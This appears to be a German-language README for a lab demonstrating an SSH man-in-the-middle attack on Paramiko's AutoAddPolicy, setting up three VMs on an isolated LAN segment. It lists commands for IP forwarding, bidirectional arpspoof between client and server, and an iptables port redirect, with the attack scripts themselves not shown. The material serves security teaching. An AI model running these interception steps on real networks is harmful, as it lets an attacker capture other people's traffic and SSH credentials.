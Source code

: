 Vorraussetzung für den Angriff 01 AutoAddPolicy mit 3 VMs:
3 VMS (Egal welches Betriebssystem, für den attacker am besten kali). Network Adapter in allen 3 VMs auf LAN Segment umstellen und ein gemeinsames LAN Segment zu erstellen. Man kann zusätzlich einen Netzwerkadapter bei jeder VM hinzufügen um nach Außen kommunizieren zu können.
Dann IP-Adresse a eingeben und wenn im "eth0" noch keine IP-Adresse zugewiesen ist folgenden befehl eingeben:
```
sudo ip addr add 192.168.1.2/24 dev eth0
```
auf der Angreifer VM. 
```
sudo ip addr add 192.168.1.3/24 dev eth0
```
auf der Client VM und 
```
sudo ip addr add 192.168.1.4/24 dev eth0
```
auf der Server VM. 
Dann "dsniff" auf der Angreifer VM installieren und ARP Spoofing starten: 
```
sudo apt-get install dsniff
```
Befehl 1:
```
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
für IP Forwarding.
Zum starten des Angriffes:
```
arpspoof -i eth0 -t 192.168.1.3 192.168.1.4
arpspoof -i eth0 -t 192.168.1.4 192.168.1.3
```
Weiterleiten des Ports:
```
iptables -t nat -A PREROUTING -p tcp --destination-port 2222 -j REDIRECT --to-ports 2223
```
"server.py" und "attacker.py" auf den jeweiligen VM's starten.
Im Skript von "client.py" muss die Zeile:
```
ssh.connect("192.168.1.4", username='username', password='password', port=2222
```
geändert werden, um mit der IP-Adresse übereinzustimmen.
"client.py" starten

